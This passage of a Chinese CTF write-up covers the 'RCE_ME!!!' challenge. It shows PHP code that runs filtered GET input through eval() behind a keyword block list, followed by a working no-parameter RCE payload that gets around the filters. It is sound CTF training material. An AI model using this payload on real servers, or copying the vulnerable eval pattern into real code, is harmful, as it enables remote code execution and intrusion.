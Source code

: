 
5. PoC：
    详见上文 Navicat 中输入的内容。

## 4. RCE_ME!!!

### 4.1 题目详情

1. 题目源码：
    ```php
     <?php
    highlight_file(__FILE__);
    if(isset($_GET['cmd'])){
        $cmd= $_GET['cmd'];
        if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\/|zip:\/\//i', $cmd)) {
            if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $cmd)) {
                if (!preg_match('/pwd|tac|cat|chr|ord|ls|dir|conv|info|hex|bin|rand|array|source|file|cwd|dfined|system|assert|sess/i',$cmd)){
                    @eval($cmd);
                }
                else{
                    die("不是,哥们！");
                }
            }
            else{
                die("真的是这样吗？");
            }
        }
        else{
            die("是这样的吗？");
        }
    } 
    ```

### 4.2 思路

1. 输入的字符串最终被 `eval`，一开始想到无字符 RCE。

2. 但是无字符 RCE 也有很多种方法，`';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $cmd)` 使得只能出现一个 `;`，以及 `()` 的嵌套。所以异或、取反、自增等方法不行。

3. 所以这时想到无参数 RCE：

    > https://blog.csdn.net/Manuffer/article/details/120738755

4. 所以最终打的 Payload 就是：
    `eval(end(current(get_defined_vars())));&shell=phpinfo();`。

## 5. alpaca_search

### 5.1 题目详情

1. 刚进去后就是登录界面。